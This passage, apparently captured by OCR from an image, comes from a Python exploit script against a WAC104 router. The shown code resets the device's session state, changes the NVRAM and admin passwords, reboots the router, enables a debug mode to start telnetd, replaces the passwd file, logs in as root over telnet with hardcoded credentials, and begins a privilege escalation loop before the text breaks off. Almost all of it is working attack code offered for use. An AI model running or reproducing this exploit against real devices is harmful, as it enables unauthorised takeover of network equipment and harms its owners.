 ```python
    b"mv passwdx passwd\n"
    b"echo DONEMARKER\n"
    )

    print(str(t.read_until(b"DONEMARKER"), "cp852"))

    t.close()

def connect_as_root():
    p = remote(IP,23)
    t = telnetlib.Telnet()
    t.sock = p

    print(str(t.read_until(b"WAC104 login: "), "cp852"))
    t.write(b"toor\n")

    print(str(t.read_until(b"Password: "), "cp852"))
    t.write(b"AlaMaKota1234\n")

    t.interact()
    t.close()

print(("-" * 70) + " RESET SESSION STATE")
reset_session_state_or_sth()

print(("-" * 70) + " CHANGE NVRAM PASSWORD")
change_nvram_password(TEMP_PASSWORD)

print(("-" * 70) + " CHANGE FULL PASSWORD")
change_password_full(TEMP_PASSWORD, NEW_PASSWORD)

print(
  f"\n"
  f"From now you can login to the web interface using these credentials:\n"
  f"  admin / {NEW_PASSWORD}\n"
  f"\n"
  f"Press CTRL+C to stop here. Otherwise press ENTER to reboot the router, "
  f"enable telnetd, and run privilege escalation exploit.\n"
)

input()

print(("-" * 70) + " RESET SESSION STATE")
reset_session_state_or_sth()

print(("-" * 70) + " REBOOT")
reboot()

print(
  "\n"
  "Wait a few minutes for the device to restart and press ENTER to continue.\n"
)
input()

print(("-" * 70) + " ENABLE DEBUG MODE")
enable_debug_mode()

print(("-" * 70) + " WAITING 10 SECONDS FOR TELNETD")
time.sleep(10)

print(("-" * 70) + " TRYING TO GET ROOT")
for i in range(5):
  try:
```